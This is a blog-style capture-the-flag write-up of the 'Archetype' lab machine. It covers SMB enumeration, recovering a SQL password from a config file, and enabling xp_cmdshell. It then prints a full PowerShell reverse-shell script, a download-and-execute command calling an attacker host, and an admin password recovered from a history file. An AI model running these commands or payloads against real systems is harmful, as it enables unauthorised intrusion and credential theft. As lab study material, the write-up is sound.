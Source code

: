 ```yaml
---
title: "Writeup: Archetype"
date: 2020-12-29T9:34:30-04:00
categories:
  - Blog
  - Writeup
tags:
  - archetype
  - update
  - nmap
  - impacket
  - smbclient
  - webshell
  - PE
  - password
---
```


Here are notes from the named target:

1. Enumeration - Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.
```yaml
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
 nmap -sC -sV -p$ports 10.10.10.27 
```

2.Enumeration - It is worth checking to see if anonymous access has been permitted, as file shares often store configuration files containing passwords or other sensitive information. We can use smbclient to list available shares
```yaml
smbclient -N -L \\\\10.10.10.27\\ 
```

3. Enumeration - There is a share called backups on the server that is public
```yaml
smbclient -N \\\\10.10.10.27\backups
```
Use Dir and Get to list and then download that file - prod.dtsConfig 

4. There is a dtsConfig file, which is a config file used with SSIS.

use CAT to read it locally

You will see the password for the SWL server

5. Foothold - Use mssqlclient to connect to the SQL server on the box
```yaml
mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
```
provide the password from the config fill viewed in step 4

We can use the IS_SRVROLEMEMBER function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. This is successful, and we do indeed have sysadmin privileges.

This will allow us to enable xp_cmdshell and gain RCE on the host. Let's attempt this, by inputting the commands below.

6. Foothold - we have highest level access in the SQL server so we rune xp_cmdshell to do RCE

```yaml
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```

The whoami command output reveals that the SQL Server is also running in the context of the user ARCHETYPE\sql_svc. However, this account doesn't seem to have administrative privileges on the host.

7. Reverse Shell - Let's attempt to get a proper shell, and proceed to further enumerate the system. We can save the PowerShell reverse shell below as shell.ps1.
```yaml
$client = New-Object System.Net.Sockets.TCPClient("Attacker IP",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Next, stand up a mini webserver in order to host the file. We can use Python.

```yaml
python3 -m http.server 80
```

After standing up a netcat listener on port 443, we can use ufw to allow the call backs on port 80 and 443 to our machine. No need to open firewall if we dont have it lovally

```yaml
nc -lvnp 443
```

We can now issue the command to download and execute the reverse shell through xp_cmdshell.

```yaml
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://Attacker IP/shell.ps1\");"
```

A shell is received as sql_svc, and we can get the user.txt on their desktop by navigating the remote system as sql account

8. Privilege Esclation - As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. We can use the command below to access the PowerShell history file.

```yaml
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt  (can also use more command to see contents of file like the user dile

```

That history file shows that the administrator account was used to map a drive to T:\ and what the password was.

From the "ARCHTYPE" box we learned that their was an Administrator/Admin account that used the Password: MEGACORP_4dm1n!!

This reveals that the backups drive has been mapped using the local administrator credentials. We can use Impacket's psexec.py to gain a privileged shell.

Finally we can use psexec.py from Impacket to connect to the server as Administrator useing the password found in the above step and het the root target hash

 Administrator/Admin account that used the Password: MEGACORP_4dm1n!!



